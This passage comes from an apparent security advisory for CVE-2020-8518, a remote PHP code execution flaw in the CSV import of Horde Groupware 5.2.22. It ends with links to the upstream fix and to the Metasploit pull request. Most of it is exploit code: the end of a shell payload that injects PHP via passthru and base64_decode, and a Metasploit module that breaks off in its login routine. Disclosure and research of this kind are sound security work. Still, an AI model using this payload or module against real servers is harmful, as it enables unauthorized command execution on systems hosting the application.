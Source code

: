 ```sh
    --data-urlencode "quote=).passthru(base64_decode(\"$BASE64_COMMAND\")).die();}//\\"
```
{: download="exploit.sh"}

### Metasploit module

A Metasploit module is provided for convenience[^module]:

```ruby
class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient

  def initialize(info={})
    super(
      update_info(
        info,
        'Name'           => 'Horde CSV import arbitrary PHP code execution',
        'Description'    => %q{

          The Horde_Data module version 2.1.4 (and before) present in Horde
          Groupware version 5.2.22 allows authenticated users to inject
          arbitrary PHP code thus achieving RCE on the server hosting the web
          application.

        },
        'License'        => MSF_LICENSE,
        'Author'         => ['Andrea Cardaci <cyrus.and@gmail.com>'],
        'References'     => [
          ['CVE', '2020-8518'],
          ['URL', 'https://cardaci.xyz/advisories/2020/03/10/horde-groupware-webmail-edition-5.2.22-rce-in-csv-data-import/']
        ],
        'DisclosureDate' => '2020-02-07',
        'Platform'       => 'php',
        'Arch'           => ARCH_PHP,
        'Targets'        => [['Automatic', {}]],
        'Payload'        => {'BadChars' => "'"},
        'Privileged'     => false,
        'DefaultTarget'  => 0))

    register_options(
      [
        OptString.new('TARGETURI', [true, 'The path to the web application', '/']),
        OptString.new('USERNAME',  [true, 'The username to authenticate with']),
        OptString.new('PASSWORD',  [true, 'The password to authenticate with'])
      ])
  end

  def login
    username = datastore['USERNAME']
    password = datastore['PASSWORD']
    res = send_request_cgi(
      'method'    => 'POST',
      'uri'       => normalize_uri(target_uri, 'login.php'),
      'cookie'    => 'Horde=x', # avoid multiple Set-Cookie
      'vars_post' => {
        'horde_user' => username,
        'horde_pass' => password,
        'login_post' => '1'})
    if not res or res.code != 302 or res.headers['Location'] != '/services/portal/'
      fail_with(Failure::UnexpectedReply, 'Login failed or application not found')
    else
```

[^kronolith]: Although it seems feasible according to the source code it does not seem possible to reach the feature via the web interface.
[horde-data]: https://github.com/horde/Data
[horde-data-fix]: https://github.com/horde/Data/commit/78ad0c2390176cdde7260a271bc6ddd86f4c9c0e#diff-e6c7843f9847ab630ddabc9b004e1e7d
[^module]: This module (with some modifications) is [now](https://github.com/rapid7/metasploit-framework/pull/13082#issuecomment-602563735) part of Metasploit.